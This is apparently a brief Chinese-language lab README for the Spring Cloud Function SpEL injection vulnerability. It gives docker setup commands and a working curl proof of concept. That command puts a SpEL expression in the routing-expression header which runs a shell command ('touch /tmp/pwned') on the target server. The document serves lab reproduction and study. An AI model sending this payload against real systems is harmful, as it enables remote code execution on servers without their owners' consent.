


环境搭建
```
docker build -t spring-cloud-function-spel-injection .
docker run -d -p 9090:8080 spring-cloud-function-spel-injection
```




漏洞复现
```
curl -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -X POST http://127.0.0.1:9090/functionRouter -d "justfortest"
```


